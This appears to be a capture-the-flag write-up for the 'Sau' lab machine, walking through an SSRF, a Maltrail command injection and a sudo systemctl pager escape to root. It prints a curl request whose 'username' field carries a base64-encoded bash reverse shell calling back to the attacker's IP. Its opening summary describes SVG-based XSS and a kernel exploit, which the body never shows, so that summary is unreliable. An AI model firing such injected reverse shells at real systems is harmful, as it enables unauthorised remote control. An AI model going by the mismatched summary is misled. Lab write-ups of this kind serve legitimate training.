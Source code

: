 # Sau - Linux(Easy)

## Summary

Sau is an easy Linux-based machine that tests basic web enumeration and exploitation skills. The machine presents a simple web application that allows uploading SVG files. By analyzing the functionality and the underlying technologies, the user discovers a vulnerability related to SVG-based XSS and leverages it to access sensitive information. With further enumeration, the attacker identifies a way to gain a reverse shell and eventually escalate privileges to root using a known Linux kernel exploit.

## Nmap Enumeration

Pro Tip: Always begin with a full Nmap scan to find all open TCP and UDP ports
This gives you a clear view of the machine's attack surface
After that scan the open ports with default scripts and vulnerability checks to gather more useful information

![Screenshot 2025-05-29 124706](https://github.com/user-attachments/assets/c0faa800-68eb-4687-adb9-3959cfee2fa6)


## Web Enumeration

On port 55555 we have somekind of an application 

![image](https://github.com/user-attachments/assets/8f5c1beb-2ab2-4649-ad22-29bd421352d7)

Important Tip:
During every web application pentest always inspect the source code. It may contain hardcoded credentials version information or other sensitive data — just like in this case

![image](https://github.com/user-attachments/assets/01dd9f16-2214-4f03-8a53-8eb7372b4691)

## Exploitation

After finding the version we look it up for vulnerabilities 

![image](https://github.com/user-attachments/assets/ada68450-e915-43db-9270-20eeaddde5c2)

And we find this CVE Server-Side Request Forgery (SSRF)

Server-Side Request Forgery (SSRF)

![image](https://github.com/user-attachments/assets/247b9148-7e98-427a-b6f3-4579246bf646)

We configure the connection to return to localhost on port 80

And we get a new page after doing this

![image](https://github.com/user-attachments/assets/b35e6307-e87f-4c79-95f9-91396eb1034f)

Now we look up for sensitive data and we find a version of Maltrail

![image](https://github.com/user-attachments/assets/7602016b-04e5-466a-a167-166029bcf76e)

After looking it in github we find a POC and how to use the exploit

![image](https://github.com/user-attachments/assets/43301e61-4233-4160-8130-d5f5cf6c3598)


Now we make a reverseshell and encode it in base64 (i used cyberchef but it dosent matter how u do it to be honest)
We also start a netcat listner on port 9001

And when we curl it now we are able to get a shell as the user puma

curl http://10.10.11.224:55555/4mmp253 -d 'username=;`echo YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMy85MDAxICAwPiYx | base64 -d | bash`'

![image](https://github.com/user-attachments/assets/90c2c0ca-4c47-41bf-b5e8-f6f0b8404a15)


<img width="198" alt="image" src="https://github.com/user-attachments/assets/39ab0568-1002-47d4-bb7a-016ab47c3c80" />


## Privilege Escalation

With sudo -l we are able to run this as root witouth the need of root password

![image](https://github.com/user-attachments/assets/9ac1588c-96b0-4511-9992-b9a086d4b4d6)

This service runs with root privileges, so when we trigger it, we gain a shell within the current session. To stabilize it, we spawn a TTY using:  python3 -c 'import pty; pty.spawn("/bin/bash")'


<img width="519" alt="image" src="https://github.com/user-attachments/assets/5d7718bb-959f-4270-861a-b009152ada01" />

The machine was rooted by exploiting misconfigured sudo permissions that allowed the user to run systemctl status as root without a password. This command when executed spawns an interactive pager which can be escaped by running shell commands (e.g., !/bin/sh). By leveraging this a root shell was gained resulting in full system compromise.







